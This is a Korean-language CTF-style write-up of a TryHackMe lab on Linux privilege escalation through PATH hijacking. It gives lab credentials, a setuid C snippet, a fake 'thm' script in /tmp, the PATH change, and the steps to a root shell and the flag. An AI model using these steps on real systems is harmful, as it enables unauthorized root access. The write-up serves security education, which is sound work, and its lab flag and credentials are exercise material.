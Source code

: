## Privilege Escalation: PATH
> TryHackMe의 "Linux Privilege Escalation: PATH" 실습을 기반으로, 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.

![murdoch 파일 발견](./screenshots/murdoch_file.png)

- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.

![코드 확인 및 작성](./screenshots/setuid_thm.png)

---

#### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```

![thm 셸 스크립트 작성](./screenshots/shell_script.png)

---

#### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```

![PATH 설정](./screenshots/path_tmp.png)

---

#### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```

![루트 쉘 획득](./screenshots/root_shell.png)

---

#### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.

![플래그 획득](./screenshots/flag_captured.png)

---

### 3. 최종 결과
- PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 쉘을 획득하였다.
- 플래그 위치: `/home/matt/flag6.txt`
- 플래그 내용: `THM-736628929`

---

### 4. 배운 점
> ✅ 실습을 통해 PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조임을 확인하였다.
